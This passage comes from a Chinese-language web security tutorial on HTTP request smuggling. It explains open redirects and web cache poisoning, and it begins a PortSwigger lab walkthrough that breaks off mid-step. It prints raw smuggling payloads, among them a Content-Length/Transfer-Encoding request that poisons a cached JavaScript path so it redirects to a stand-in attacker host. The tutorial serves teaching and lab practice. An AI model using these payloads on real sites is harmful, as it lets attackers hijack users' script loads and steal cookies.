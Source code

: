 上面的貌似没啥大问题，但是如果服务器允许在路径中使用与协议相关的 URL，这仍有可能用于开放式重定向

```bash
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: //attacker-website.com/example/
```

### 缓存投毒

在上述攻击的变体中我们也可以利用 HTTP 请求走私来执行 Web 缓存中毒攻击，如果前端基础结构的任何部分执行内容缓存 (通常是出于性能原因)，那么就有可能用异地重定向响应来破坏缓存，这将使攻击持续下去，影响任何随后请求受影响 URL 的用户，在这种变体中攻击者向前端服务器发送以下所有内容：

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

走私的请求到达后端服务器后，位于后端的服务器会像以前一样用重定向进行响应，前端服务器根据它认为是第二个请求中的 URL(即/static/include.js) 缓存此响应，此时当其他用户请求此 URL 时，将会受到攻击者网站的重定向

```bash
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

下面我们通过一个靶场进行简单的演示：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码传输，前端服务器被配置为缓存某些响应，为了解决这个实验，你需要执行一个请求走私攻击，导致缓存中毒，这样一个 JavaScript 文件的后续请求接收到一个重定向到利用服务器，中毒的缓存应该向 document.cookie 发出警报  
过程演示：  
首先访问上述的靶场地址然后点击"ACCESS THELAB"进入靶场，随后点开任意一个 Blog，然后点击"Next Blog"  
[![](assets/1704418275-a323cfdc175d1b829ddcb2a399dc996e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161440-245a8222-aa10-1.png)  
此时我们会捕获到以下请求数据包：

[![](assets/1704418275-d16e1cca6d7f01673fedca9d8cb54578.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161614-5c839008-aa10-1.png)  
随后我们重新来过并更改请求数据包在其中插入走私的请求报文内容：
